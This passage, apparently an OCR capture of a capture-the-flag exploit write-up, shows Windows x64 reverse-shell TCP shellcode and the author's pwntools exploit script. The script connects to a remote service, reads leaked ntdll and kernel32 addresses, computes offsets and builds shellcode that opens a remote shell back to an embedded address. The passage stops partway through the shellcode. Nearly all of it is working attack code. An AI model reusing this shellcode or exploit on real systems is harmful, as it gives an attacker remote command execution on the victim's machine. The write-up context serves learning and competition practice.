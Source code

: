 ```c
shellcode += "\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89" 
shellcode += "\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81" 
shellcode += "\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00" 
shellcode += "\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0" 
shellcode += "\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01" 
shellcode += "\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41" 
shellcode += "\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d" 
shellcode += "\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48" 
shellcode += "\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff" 
shellcode += "\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5" 
shellcode += "\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb" 
shellcode += "\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5"
# windows x64 reverse shell TCP
```

Finally, my full exploit code is here.

```python
from pwn import *

#context.log_level = "debug"

r = remote("89.38.208.147",2025) #remote
#r = remote("192.168.2.234",2025) #local
r.recvuntil("Ntdll address is: ")
ntdll = int(r.recv(12),16)

r.recvuntil("kernel32 address is: ")
kernel32 = int(r.recv(12),16)

log.info("ntdll : " + hex(ntdll))
log.info("kernel32 : " + hex(kernel32))

protect = kernel32 + 0x14d0 #remote
#protect = kernel32 + 0x1acb0 #local

bss = 0x0000000004DE040
log.info("bss : " + hex(bss))

shellcode = ""
shellcode += "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50" 
shellcode += "\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52" 
shellcode += "\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a" 
shellcode += "\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41" 
shellcode += "\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52" 
shellcode += "\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48" 
shellcode += "\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40" 
shellcode += "\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48" 
shellcode += "\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41" 
shellcode += "\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1" 
shellcode += "\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c" 
shellcode += "\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01" 
shellcode += "\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a" 
shellcode += "\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b" 
shellcode += "\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33" 
shellcode += "\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00" 
shellcode += "\x00\x49\x89\xe5\x49\xbc\x02\x00\x2d\x5b\xd3\xef\x7c\xed"
shellcode += "\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
shellcode += "\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29"
shellcode += "\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48"
shellcode += "\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea" 
shellcode += "\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89" 
shellcode += "\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81" 
shellcode += "\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00" 
```